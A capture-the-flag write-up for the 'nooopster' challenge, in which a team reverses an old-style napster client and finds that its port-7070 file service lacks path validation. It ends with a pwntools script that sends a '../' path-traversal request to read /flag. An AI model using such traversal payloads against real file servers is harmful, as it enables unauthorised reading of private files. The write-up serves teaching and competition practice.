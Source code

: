 # nooopster
```none
Sharing files like its 1999. Connect to my network with OpenVPN.

nooopster.challenges.ooo 1999

Files:
* nooopster.ovpn 09a9782cf59564ca2c83ba679f864615674c712da6489e2e70c4895b135a4e43
* openvpn.shared.key 0d7937906ed4795db071b403a26c18b989f5efebc7e6c20defbb96b8cd5d10bd

tags: easy, pwn, reversing
```

Solved by leppan, [PewZ](https://twitter.com/0xbadcafe1), Pingop,
[zanderdk](https://twitter.com/alexanderkrog)


This was the first challenge I looked at in this CTF. I joined the CTF ~7
hours after it started, so my team had made some progress already.

After connecting to the VPN, zander figured out that the host 192.168.5.1 had
ports 7070 and 8888 open. We have a napster service running on port 8888, so
this seemed like the perfect place to start.

We started by reading a [napster protocol
spec](http://opennap.sourceforge.net/napster.txt) and connecting manually using
a Python script. During this initial recon phase we figured out that the server
was running opennap v0.44, which we were able to find the source for on some
random site.  At this point I got the idea that there might be a bug in
opennap, since the project was pretty old, and ended up spending an hour or so
just reading the source.

But this challenge is marked as easy, so we decided to take a step back and
interact with the server with a napster client. We ended up using
[nap](http://nap.sourceforge.net/dist/nap-1.5.4.tar.gz). When connecting, we're
greeted with the following message:

```none
     _.-------._
    |\          /|
   /| \_.----._/ |\                                  __
  .$:            :$.    _____  ____   _____  _____  / /__ ___   ____
 |$$:  ___  ___  :$$|  / __  // _  `// _   //  ___//  __// _ \ / ___/
  "$: \___\/___/ :$"  / / / // /_/ // /_/ /(__   )/  /_ /  __// /
    |     __     |   /_/ /_/ \__,_// ____//_____/ \___/ \___//_/mG!
    `.    \/    .'                /_/
      `. .__, .'
        `----'


* VERSION opennap 0.44
* SERVER (none)
* There have been 2 connections to this server.
```

Now we spent some time trying to figure out what commands are available in the
client since none of us had used napster before. After reading `/help` for a
bit, we found out that we can list channels using `/clist`:

```none
Channel | Users | Topic
-----------------------
#chat - 1 - Welcome to the #chat channel.
```

Let's join that channel using `/join`:
```none
* Users:
[user             ][nooopster        ]
* Topic for #chat: Welcome to the #chat channel.
```

A little while after joining we noticed that the `nooopster` client started
sending messages:

```none
<nooopster> have you seen my cool stuff?
<nooopster> am I on your hotlist?
<nooopster> what are you waiting for...
<nooopster> hey there! check out my files
```

Napster is a file sharing service after all, so let's take a look at the files
shared by `nooopster` using `/browse`. We get a list of 202 files back, all of
them being .mp3 files except for the last one:

```none
[...]
180) Tommy Page - I'll Be Your Everything.mp3                                    │   24  │  10:00
181) Toni Braxton - Breathe Again.mp3                                            │   24  │  10:00
182) Toni Braxton - Un-Break My Heart.mp3                                        │   24  │  10:00
183) Tracy Chapman - Give Me One Reason.mp3                                      │   24  │  10:00
184) UB40 - Can't Help Falling In Love (From Sliver).mp3                         │   24  │  10:00
185) Usher - My Way.mp3                                                          │   24  │  10:00
186) Usher - Nice & Slow.mp3                                                     │   24  │  10:00
187) Usher - You Make Me Wanna....mp3                                            │   24  │  10:00
188) Vanessa Carlton - A Thousand Miles.mp3                                      │   24  │  10:00
189) Vanessa Williams - Save The Best For Last.mp3                               │   24  │  10:00
190) Vanilla Ice - Ice Ice Baby.mp3                                              │   24  │  10:00
191) Whitney Houston - All The Man That I Need.mp3                               │   24  │  10:00
192) Whitney Houston - Exhale (Shoop Shoop) (From Waiting To Exhale).mp3         │   24  │  10:00
193) Whitney Houston - I Will Always Love You.mp3                                │   24  │  10:00
194) Whitney Houston - I'm Your Baby Tonight.mp3                                 │   24  │  10:00
195) Whitney Houston Feat. Faith Evans & Kelly Price - Heartbreak Hotel.mp3      │   24  │  10:00
196) Will Smith - Switch.mp3                                                     │   24  │  10:00
197) Wilson Phillips - Hold On.mp3                                               │   24  │  10:00
198) Wilson Phillips - Impulsive.mp3                                             │   24  │  10:00
199) Wilson Phillips - Release Me.mp3                                            │   24  │  10:00
200) Wilson Phillips - You're In Love.mp3                                        │   24  │  10:00
201) Wreckx-N-Effect - Rump Shaker.mp3                                           │   24  │  10:00
202) nooopster
```

We downloaded the `nooopster` file, which turned out to be the binary used by
the client.  After reversing for a while we figured out that the client was
doing something like this:

1. `chdir()` into the `shared` directory
2. connect to the server
3. register as `nooopster`
4. start a listening thread on port 7070 (see descriptions below)
5. send a `MSG_CLIENT_ADD_FILE` command for each file in `shared`. these are
   all the files we see when browsing `nooopster`'s files.
6. loop forever, sending the different chat messages listed above and listening
   for messages from the server

When the client receives a `MSG_SERVER_UPLOAD_REQUEST` message from the server,
which means that someone (us) has requested a file, the username of the client
requesting the file will be added to a global linked list. The function looks
something like this:

```c
void add_to_list(char *user)
{
	struct list_entry *new, *tmp;

	if (!in_list(user)) {
		pthread_mutex_lock(&mutex);

		new = malloc(sizeof(*new));
		new->username = user;
		tmp = g_list;
		g_list = new;
		new->next = tmp;

		pthread_mutex_unlock(&mutex);
	}
}
```

So what is this list used for? Turns out it's used in the thread function
mentioned earlier. Let's look at what the thread is doing:
1. create a TCP socket and listen on port 7070
2. accept new connections
3. start a new thread for each connection and handle it in the function at
   `0x21d0`

The connection handler performs the following actions:
1. send "1" to the connected client
2. receive 3 bytes and verify that they are "GET"
3. verify that the message contains 3 fields, e.g. `user "<path>" 0`
	* an example of a valid message (which we found by looking at wireshark)
	  is: `username "\shared\nooopster" 0`
4. verify that `user` is in the list (`g_list`)
5. check that `path` starts with `\shared\`

There is no path validation, so we can ask for files that are outside
`\shared\`!
To pass the check in step 4, we have to make sure that our user is added to the
list, which we can do by requesting a file in the napster client. If we send a
message to the nooopster client on port 7070 requesting a file outside the
share directory the client will send the contents back to us :)

Here's a script that requests `/flag`:

```python
from pwn import *

io = remote("192.168.5.1", 7070)

tmp = io.recv(1)
io.send(b"GET")

payload = b"user \"\shared\../../../../../flag\" 0"
io.send(payload)
log.info(io.recvall())
```

Let's get the flag!

```console
$ python3 solve.py
[+] Opening connection to 192.168.5.1 on port 7070: Done
[+] Receiving all data: Done (25B)
[*] Closed connection to 192.168.5.1 port 7070
[*] 23OOO{M4573R_0F_PUPP375}
```
